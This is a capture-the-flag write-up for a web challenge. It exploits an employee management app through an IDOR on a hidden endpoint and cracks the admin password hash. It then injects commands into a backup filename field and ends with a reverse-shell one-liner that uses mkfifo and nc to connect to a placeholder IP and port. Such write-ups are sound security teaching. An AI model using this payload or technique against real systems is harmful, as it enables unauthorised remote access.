









# **_Command via door_**
### Medium: 500 (300) pts

> Our employee management web application should soon be deployed. Can you help us test its robustness?

> Challmaker: uchiwa


We have an app were we can create an account and login.




Once inside there is a profile page.





Nothing really interesting. I tried to see is there was an `SSTI` in the username as this is a flask app but nothing.

Moving on and reading the source code we get this.





There is a hidden directory `/infos-all-users`. Accessing it we get





This tells us that the request wasn't sent the way it should've been. But the name of that directory tells us that we're supposed to read some users infos here so I tried some `Idor` stuffs like `?id=1` and `/1`. Finally the last one was the right answer as accessing `/infos-all-users/2` we get this





The password seems to be encrypted so I used `crackstation` to decode it.





And login in as admin we have





We see that there is a backup functionality which isn't available to random users. It asks us for the name of the backup file and then nothing....





Now by experience we know that databases backups are generally generated using tools like `mysqldump`  which are command line utilities. So we can assume that in the background what is actually done by the server when we use the backup functionality is something like:

```bash
$ mysqldump -u [username] –p[password] [database_name] > <filename_provided>
```

Or something similar. I decided to inject some bash specific chars like `#` to confirm that and in fact it had some effect on the backup process result

This opens up the way to an `RCE`

I sent this payload to get a revershell:

`random; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP> <PORT> >/tmp/f`

And nice we got the shell. We just have to look for the flag now and we're done.





##### _By w1z0z - (l3gm1nn)_